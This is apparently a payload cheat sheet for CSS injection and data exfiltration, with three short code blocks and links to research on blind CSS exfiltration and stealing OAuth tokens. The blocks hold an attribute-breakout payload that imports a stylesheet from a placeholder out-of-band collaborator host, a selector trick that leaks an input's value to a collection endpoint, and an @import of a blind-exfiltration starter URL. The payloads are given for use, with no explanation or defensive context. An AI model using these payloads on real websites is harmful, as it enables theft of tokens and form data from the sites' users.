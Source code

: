 
```bash
  "><style>@import'//YOUR-PAYLOAD.oastify.com'</style>
```

```bash
<input value=1337>
<style>
input[value="1337"] {
   --value: url(/collectData?value=1337);
}
input {
   background:var(--value,none);
}
</style>
```


```bash
<style>
@import 'https://portswigger-labs.net/blind-css-exfiltration/start';
</style>
```
- https://blog.voorivex.team/css-data-exfiltration-to-steal-oauth-token
-  https://portswigger.net/research/blind-css-exfiltration
- https://github.com/hackvertor/blind-css-exfiltration/tree/main
